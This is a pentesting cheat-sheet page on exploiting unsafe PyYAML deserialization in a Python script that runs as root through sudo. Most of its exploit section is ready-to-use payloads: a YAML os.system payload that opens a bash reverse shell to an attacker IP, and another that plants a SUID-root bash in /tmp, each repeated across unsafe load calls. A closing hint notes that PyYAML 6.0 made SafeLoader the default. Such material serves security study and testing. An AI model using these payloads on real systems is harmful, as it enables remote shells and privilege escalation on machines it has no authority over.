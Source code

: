 # Python - Yaml Deserialization

## Theory 

Yaml python libraries is also capable to serialize python objects and not just raw data:

## Practice

### PyYaml Code Execution

{% tabs %}
{% tab title="Enumerate" %}
Assume the python script can be executed as root with sudo rights. If it use the `yaml.load()` method and we controll its input, then the script is vulnerable to arbitrary code execution.

```bash
sudo -l
    (root): /usr/bin/python3 /opt/scripts/example.py
```

Check if we have control over the input of a vulnerable function
```python
import yaml

filename = "example.yml"
yaml.load()
```
{% endtab %}

{% tab title="Exploit" %}
If we controll some variables passed to this vulnerables functions, we can inject arbitrary code. here are example of some payloads:
```python
#Reverse shell
import yaml
from yaml import Loader, UnsafeLoader
yaml.load('!!python/object/new:os.system ["bash -c \'bash -i >& /dev/tcp/10.10.14.12/9001 0>&1\'"]',Loader=Loader)

#SUID bit on bash
data = b'!!python/object/new:os.system ["cp `which bash` /tmp/bash;chown root /tmp/bash;chmod u+sx /tmp/bash"]'
yaml.load(data)
yaml.load(data, Loader=Loader)
yaml.load(data, Loader=UnsafeLoader)
yaml.load_all(data)
yaml.load_all(data, Loader=Loader)
yaml.load_all(data, Loader=UnsafeLoader)
yaml.unsafe_load(data)
```

{% hint style="danger" %}
Since PyYaml **version 6.0**, the default loader for load has been switched to **`SafeLoader`** mitigating the risks against Remote Code Execution.
The vulnerable sinks are now **`yaml.unsafe_load`** and **`yaml.load(input, Loader=yaml.UnsafeLoader)`**
{% endhint %}
{% endtab %}
{% endtabs %}


## References

{% embed url="https://swisskyrepo.github.io/PayloadsAllTheThingsWeb/Insecure%20Deserialization/Python/" %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization" %}

